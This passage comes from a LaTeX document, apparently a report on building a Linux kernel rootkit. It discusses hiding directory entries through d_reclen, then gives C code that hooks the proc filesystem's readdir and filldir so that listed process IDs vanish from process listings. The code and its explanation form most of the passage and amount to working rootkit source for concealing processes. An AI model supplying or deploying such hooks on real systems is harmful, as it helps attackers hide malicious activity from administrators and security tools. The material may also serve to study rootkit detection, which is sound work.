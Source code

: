 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
Another implementation alternative would have been to manipulate the element preceeding the entry to be hidden, such that it appears to be longer and thus kind of shades the item beginning with \texttt{rootkit\_}. Each \texttt{dirent} has a member \texttt{d\_reclen}, which stores the length of the \texttt{dirent} itself. Thus, we also could manipulate \texttt{d\_reclen} accordingly. 

However, this alternative approach brings quite some overhead in code, because you need e.g. additional tests whether the element to be hidden is the first element (the hard case) or somewhere in the middle (that works quite well).

\subsection{Process Hiding}

\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the specified processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}
\end{document}
